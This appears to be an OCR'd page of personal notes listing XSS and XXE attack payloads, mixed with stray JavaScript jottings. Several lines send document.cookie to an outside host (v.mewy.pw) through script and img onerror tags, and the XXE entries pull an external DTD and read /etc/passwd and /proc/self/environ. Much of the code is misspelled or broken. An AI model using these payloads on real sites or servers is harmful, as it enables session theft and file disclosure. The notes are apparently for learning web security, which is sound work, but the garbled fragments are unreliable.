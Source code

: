 

default-src 'sef'; img-src 'self'; iframe-src *








# XSS Payloads

<div onload
<body onload
onfocus

http://google.com/$get

$get= "something else"

ftp://

http://google.com/something else


<script>alert(1)</script>
<script src="jqeury.js">$.get("http://whatever.com"+documnet.cookei);
  <script>fetch("http://v.mewy.pw")</script>
  <script>document.replace("XMLHttpRequest")</script>
<script>document.location="http://v.mewy.pw?"+document.cookie</script>

<img src=x onerror="document.location='http://v.mewy.pw?awekjawegn'+document.location"/>
<script>new Image().src="//v.mewy.pw?"+document.cookie</script>
https:// -> //whatever.com -> https://whatever.com
http:// -> //whatever.com -> http://whatever.com

<svg/onload="alert(1)"/>

document['location']=

http://news.com/weather?type=jsonp&method=somefunction
-> somefunction({json:data})
method=somefunction();// -> somefunction();//({json:data})
somefunction,alert(1),console.log

<script>
function unexecuted() {
  var trackingipaddress=/*$somepostvariable; // don't a trigger a syntax error here
}

var trackingipaddress=/**/"$somepostvariable"
</script>
$somepostvariable=
"+alert(1)+"

//
/* */
",alert(1)//



<script>
for () {
  var res = fetch("http://gogole.com") .
  then()
  .then()
  .theN()
  .finally
}
// res = Promise(fetch('http:'))



res.resolve() // block -> until the fetch complese
// res = httpResponse(http://google.com)


doseomthing("arg", function callback(ret) {

  dosomethingelse("arg", fucntion callbackagain(arg) {

    dosomethingelse("arg", fucntion callbackagain(arg) {

      dosomethingelse("arg", fucntion callbackagain(arg) {

      })
    })
  })

})






















``
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE rss[
  <!ENTITY % dtd SYSTEM "http://v.mewy.pw/xml/index3.xml">%dtd;%dtf;%step;
]>
<rss>
&file;
</rss>


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE rss[
  <!ENTITY % dtd SYSTEM "http://v.mewy.pw/xml/index3.xml">%dtd;%dtf;%step;
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<rss>
&file;
</rss>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE rss[
  <!ENTITY file SYSTEM "file:///proc/self/environ">
]>
<rss>
&file;
</rss>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE rss[
  <!ENTITY file SYSTEM "http://google.com">
]>
<rss>
&file;
</rss>




<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE rss[
  <!ENTITY file SYSTEM "http://google.com">
]>
<rss>
<[!CDATA[
<!DOCTYPE>
<html
<body>google.com</body>
]]>
</html>
</rss>

 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "http://google.com">
  <!ENTITY % end "]]>">

  start   stuff    end
  //start
  <!CDATA[ 
  //%stuff  
<!DOCTYPE>
<html
<body>google.com</body>

//end
  ]>
